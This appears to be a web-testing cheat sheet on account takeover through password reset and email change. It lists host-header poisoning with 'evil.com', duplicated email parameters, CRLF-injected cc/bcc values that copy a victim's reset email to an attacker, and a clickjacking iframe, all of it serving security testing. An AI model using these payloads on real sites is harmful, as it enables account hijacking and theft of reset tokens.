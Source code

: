 ### Forget Password Functionality
```
- Register an account as an attacker
- Change password and intercept success response of password change
- Register an account as a victim
- Try to change password and intercept the response
- Paste the attacker success response
```
```
- Click forgot password and put your email
- Intercept the request and add some headers with attacker control domain.
- Check email and see if password token comes with attacker control domain.
```

#### Headers
Try to change Host header.
```
Host: evil.com

Not working? Jsut double it.
Host: target.com
Host: evil.com
```

Other Headers
```
X-Forwarded-For
X-Forwarded-Host
Referer
Origin
```

#### With HTTP Parameter Pollution
```
- Go to password reset link, enter new password and intercept the request
- Add extra email parameter on the request
  email=attacker@email&email=victim@email
- If response success then see which account password has been changed
```

```
- Click Forgot Password
- Enter victim@mail.com%0d%0acc:attacker@mail.com Or victim@mail.com%0d%0abcc:attacker@mail.com
```

### Email Change
#### ClickJacking
```
If email can change via GET parameter then check is there any protection against ClickJacking.
<iframe src="http://example.com/change?email=attacker@mail.com"></iframe>
```
